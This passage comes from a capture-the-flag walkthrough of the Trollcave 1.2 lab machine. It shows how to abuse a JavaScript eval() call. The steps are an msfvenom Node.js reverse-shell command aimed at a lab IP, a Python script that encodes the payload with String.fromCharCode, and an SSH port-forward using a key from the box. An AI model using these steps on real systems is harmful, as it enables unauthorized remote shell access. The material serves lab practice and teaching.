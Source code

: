 According to [MDN](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)'s description of `eval()`,

>The argument of the `eval()` function is a string. If the string represents an expression, `eval()` evaluates the expression. If the argument represents one or more JavaScript statements, `eval()` evaluates the statements. Do not call `eval()` to evaluate an arithmetic expression; JavaScript evaluates arithmetic expressions automatically.

Good thing `msfvenom` is able to generate a reverse shell payload for Node.js, but notice `toString()` after `eval()`? We need to make sure `eval()` returns a string so that `toString()` has something to do.

```
# msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.30.128 LPORT=44444 -o rev.js
# echo '1+1;' >> rev.js  <-- this is to make sure toString() has something to do ;)
```

We also need to ensure that our payload is a string for `eval()`. To do that, we can encode our payload into ordinal numbers and piece them back together with `String.fromCharCode()`.

The following Python code does that.

<div class="filename"><span>encode.py</span></div>
```python
#!/usr/bin/env python

f = open('rev.js', 'r')
encoded = ''
for c in f.read():
    encoded = encoded + ',' + str(ord(c))
print 'eval(String.fromCharCode(%s))' % encoded[1:]
```

All that's left to do is to forward our local port `tcp/9999` to the remote port `tcp/8888` so that I can access it from my browser.

```
# ssh -L9999:localhost:8888 -i /root/keys/trollcave rails@192.168.30.130 -f -N
```

![screenshot-22](/assets/images/posts/trollcave-1.2-walkthrough/screenshot-22.png)

The final exploit URL looks like this.

```
```

[1]: https://www.vulnhub.com/entry/trollcave-12,230/
[2]: https://twitter.com/@davidyat_es
[3]: https://www.vulnhub.com